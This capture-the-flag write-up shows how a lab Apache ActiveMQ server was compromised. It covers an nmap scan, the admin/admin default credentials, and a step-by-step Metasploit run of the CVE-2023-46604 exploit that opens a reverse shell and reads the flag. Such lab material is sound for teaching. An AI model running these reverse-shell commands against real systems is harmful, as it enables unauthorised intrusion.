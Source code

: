# Writeup
by fluffyhake

## Solution
Running metasploit with the `multi/misc/apache_activemq_rce_cve_2023_46604` exploit gives us a reverse shell where we can obtain the flag.

### Example

```
msf6 > use exploit/multi/misc/apache_activemq_rce_cve_2023_46604
msf6 exploit(multi/misc/apache_activemq_rce_cve_2023_46604) > set target 2
msf6 exploit(multi/misc/apache_activemq_rce_cve_2023_46604) > set payload cmd/unix/reverse
msf6 exploit(multi/misc/apache_activemq_rce_cve_2023_46604) > set RHOSTS 10.128.2.185

msf6 exploit(multi/misc/apache_activemq_rce_cve_2023_46604) > exploit

[*] Started reverse TCP double handler on 10.128.2.186:4444 
[*] 10.128.2.185:61616 - Running automatic check ("set AutoCheck false" to disable)
[+] 10.128.2.185:61616 - The target appears to be vulnerable. Apache ActiveMQ 5.15.3
[*] 10.128.2.185:61616 - Using URL: http://10.128.2.186:8080/bkuRyqOrWH
[*] 10.128.2.185:61616 - Sent ClassPathXmlApplicationContext configuration file.
[*] 10.128.2.185:61616 - Sent ClassPathXmlApplicationContext configuration file.
[*] Accepted the first client connection...
[*] Accepted the second client connection...
[*] Command: echo r45tNsHKThhcMCnA;
[*] Writing to socket A
[*] Writing to socket B
[*] Reading from sockets...
[*] Reading from socket B
[*] B: "r45tNsHKThhcMCnA\r\n"
[*] Matching...
[*] A is input...
[*] Command shell session 1 opened (10.128.2.186:4444 -> 10.128.2.185:42398) at 2024-11-03 21:21:02 +0000
[*] 10.128.2.185:61616 - Server stopped.


cat /home/activemq/user.txt
EPT{d41d8cd98f00b204e9800998ecf8427e}

```

## Explanation
To get some information about the host we started by running `nmap -A -sS -p- -Pn 10.128.2.185` to gather information about open ports and services.

```
$ nmap -A -sS -p- -Pn 10.128.2.185
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-11-03 18:30 UTC
Nmap scan report for ip-10-128-2-185.eu-west-1.compute.internal (10.128.2.185)
Host is up (0.00026s latency).
Not shown: 65527 closed tcp ports (reset)
PORT      STATE SERVICE    VERSION
22/tcp    open  ssh        OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey: 
|   2048 74:70:2a:43:ae:f2:5b:9a:88:a7:67:ef:c0:08:6e:2a (RSA)
|   256 4e:79:45:f2:30:5b:12:0f:34:12:5d:34:5b:cf:6c:d8 (ECDSA)
|_  256 ed:4f:5c:ad:c1:fa:c1:33:d9:4c:92:83:37:36:c9:b1 (ED25519)
1883/tcp  open  mqtt
| mqtt-subscribe: 
|   Topics and their most recent payloads: 
|     ActiveMQ/Advisory/MasterBroker: 
|_    ActiveMQ/Advisory/Consumer/Topic/#: 
5672/tcp  open  amqp?
|_amqp-info: ERROR: AQMP:handshake expected header (1) frame, but was 65
| fingerprint-strings: 
|   DNSStatusRequestTCP, DNSVersionBindReqTCP, GetRequest, HTTPOptions, RPCCheck, RTSPRequest, SSLSessionReq, TerminalServerCookie: 
|     AMQP
|     AMQP
|     amqp:decode-error
|_    7Connection from client using unsupported AMQP attempted
8161/tcp  open  http       Jetty 9.2.22.v20170606
|_http-server-header: Jetty(9.2.22.v20170606)
|_http-title: Apache ActiveMQ

and so on...
```

The server is responding on a lot of ports. After some poking around we see that the website at tcp/8161 is running Apache ActiveMQ with default credentials `username: admin password: admin`.

This was really interesting. We could listen to messages with `mosquitto_sub -v -h 10.128.2.185 -p 1883 -t '#'` and see messeges sent from the admin panel. 

![Web Panel and mosquitto_sub](image.png)

We do not have a shell yet, so let's look for some other way in. Looking for Apache ActiveMQ exploits we find a metasploit exploit that can give us a reverse shell. It's called `multi/misc/apache_activemq_rce_cve_2023_46604`. Let's try it.

Launching the metasploit console
```
msfconsole
```

Selecting the exploit we found
```
msf6 > use exploit/multi/misc/apache_activemq_rce_cve_2023_46604
```
List the possible targets.
```
msf6 exploit(multi/misc/apache_activemq_rce_cve_2023_46604) > show targets

Exploit targets:
=================

    Id  Name
    --  ----
=>  0   Windows
    1   Linux
    2   Unix

```
In our case we select Unix. I struggled to get any other payload than `cmd/unix/reverse` to work, so thats why we used Unix.

```
msf6 exploit(multi/misc/apache_activemq_rce_cve_2023_46604) > set target 2
```

Show all available options for this exploit. We need to define RHOSTS here since it's required.

```
msf6 exploit(multi/misc/apache_activemq_rce_cve_2023_46604) > show options

Module options (exploit/multi/misc/apache_activemq_rce_cve_2023_46604):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   RHOSTS                    yes       The target host(s), see https://docs.metasploit.co
                                       m/docs/using-metasploit/basics/using-metasploit.ht
                                       ml
   RPORT    61616            yes       The target port (TCP)
   SRVHOST  0.0.0.0          yes       The local host or network interface to listen on.
                                       This must be an address on the local machine or 0.
                                       0.0.0 to listen on all addresses.
   SRVPORT  8080             yes       The local port to listen on.
   SSLCert                   no        Path to a custom SSL certificate (default is rando
                                       mly generated)
   URIPATH                   no        The URI to use for this exploit (default is random
                                       )

```

use `set` to set RHOSTS. RHOSTS is one or multiple remote hosts to exploit.
```
msf6 exploit(multi/misc/apache_activemq_rce_cve_2023_46604) > set RHOSTS 10.128.2.185
```
Set the payload to `cmd/unix/reverse`. The payload defines what to do when we have executed the exploit successfully. This could be reading files, creationg users or opening a reverse shell. We want that reverse shell. To see all available payloads for the exploit you can run `show payloads`.

```
msf6 exploit(multi/misc/apache_activemq_rce_cve_2023_46604) > set payload cmd/unix/reverse
```
Finally, run `exploit` to execute.
```
msf6 exploit(multi/misc/apache_activemq_rce_cve_2023_46604) > exploit

[*] Started reverse TCP double handler on 10.128.2.186:4444 
[*] 10.128.2.185:61616 - Running automatic check ("set AutoCheck false" to disable)
[+] 10.128.2.185:61616 - The target appears to be vulnerable. Apache ActiveMQ 5.15.3
[*] 10.128.2.185:61616 - Using URL: http://10.128.2.186:8080/3TCbclwjZo33SHe
[*] 10.128.2.185:61616 - Sent ClassPathXmlApplicationContext configuration file.
[*] 10.128.2.185:61616 - Sent ClassPathXmlApplicationContext configuration file.
[*] Accepted the first client connection...
[*] Accepted the second client connection...
[*] Command: echo jxhfGYLjMSxVO6hV;
[*] Writing to socket A
[*] Writing to socket B
[*] Reading from sockets...
[*] Reading from socket B
[*] B: "jxhfGYLjMSxVO6hV\r\n"
[*] Matching...
[*] A is input...
[*] Command shell session 2 opened (10.128.2.186:4444 -> 10.128.2.185:42382) at 2024-11-03 19:28:59 +0000
[*] 10.128.2.185:61616 - Server stopped.



dir
bin   dev  home  lib64	mnt  proc  run	 srv  tmp  var
boot  etc  lib	 media	opt  root  sbin  sys  usr
```
We now have a reverse shell. Let's use metasploit to give us a proper bash shell by running `shell`

```
shell
[*] Trying to find binary 'python' on the target machine
[*] Found python at /usr/bin/python
[*] Using `python` to pop up an interactive shell
[*] Trying to find binary 'bash' on the target machine
[*] Found bash at /usr/bin/bash


[prime@ip-10-128-2-185 /]$ whoami
whoami
prime
```
We now have a shell in the context of the prime user. Let's look around for a bit
```
[prime@ip-10-128-2-185 /]$ cd
cd

[prime@ip-10-128-2-185 ~]$ ls
ls
user.txt
```
In the home folder there is a file called user.txt. It contains the flag 🎉
```
[prime@ip-10-128-2-185 ~]$ cat user.txt	
cat user.txt
EPT{d41d8cd98f00b204e9800998ecf8427e}
```

